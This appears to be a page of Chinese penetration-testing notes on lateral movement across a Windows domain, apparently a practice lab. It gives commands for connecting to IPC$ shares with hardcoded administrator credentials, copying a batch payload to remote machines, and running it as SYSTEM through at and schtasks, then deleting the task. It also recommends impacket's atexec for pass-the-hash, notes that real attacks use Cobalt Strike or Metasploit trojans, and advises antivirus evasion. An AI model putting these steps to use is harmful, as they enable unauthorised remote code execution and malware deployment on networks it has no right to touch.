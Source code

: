 #schtask < Windows2012
net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\administrator #建立IPC连接:
copy add.bat \\192.168.3.21\c$ #拷⻉执行文件到目标机器(实战中大多是CS或者MSF木⻢)
at \\192.168.3.21 15:47 c:\add.bat #添加计划任务




#schtask >=Windows2012
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\administrator #建立ipc连接
copy add.bat \\192.168.3.32\c$
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY
/tr c:\add.bat /F #创建adduser任务对应执行文件
schtasks /run /s 192.168.3.32 /tn adduser /i #运行adduser任务
schtasks /delete /s 192.168.3.32 /tn adduser /f #删除adduser任务

atexec-impacket工具 支持哈希密码
优点:方便快捷,可以支持hash。缺点:第三方工具,会受到杀毒软件或防护的影响。如果目标主机有杀软或防护的话,要对该软件进行免杀

#pip install pyinstaller
#pyinstaller -F fuck_neiwang_001.py 生成可执行EXE